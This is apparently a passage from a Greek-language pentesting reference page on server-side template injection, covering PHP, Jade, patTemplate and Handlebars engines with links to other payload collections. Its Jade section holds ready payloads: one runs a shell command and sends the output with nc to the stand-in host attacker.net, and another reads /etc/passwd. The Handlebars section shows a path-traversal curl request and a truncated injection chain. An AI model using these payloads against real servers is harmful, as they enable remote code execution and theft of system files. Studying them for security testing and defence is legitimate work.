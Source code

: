 - [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html_template_phplib](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html_template_phplib)

### Άλλο PHP

<figure><img src="../../images/image (6).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*u4h8gWhE8gD5zOtiDQalqw.jpeg">https://miro.medium.com/v2/resize:fit:1100/format:webp/1*u4h8gWhE8gD5zOtiDQalqw.jpeg</a></p></figcaption></figure>

- Περισσότερες πληροφορίες στο [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

### Jade (NodeJS)
```javascript
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
**Περισσότερες πληροφορίες**

- Στην ενότητα Jade του [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen)

### patTemplate (PHP)

> [patTemplate](https://github.com/wernerwa/pat-template) μη-συμπληρωματική μηχανή θεμάτων PHP, που χρησιμοποιεί XML tags για να διαιρέσει ένα έγγραφο σε διάφορα μέρη
```xml
<patTemplate:tmpl name="page">
This is the main page.
<patTemplate:tmpl name="foo">
It contains another template.
</patTemplate:tmpl>
<patTemplate:tmpl name="hello">
Hello {NAME}.<br/>
</patTemplate:tmpl>
</patTemplate:tmpl>
```
**Περισσότερες πληροφορίες**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate)

### Handlebars (NodeJS)

Path Traversal (περισσότερες πληροφορίες [εδώ](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)).
```bash
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.shoebpatel.com:9090/'
```
- \= Σφάλμα
- ${7\*7} = ${7\*7}
- Τίποτα
```java
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
```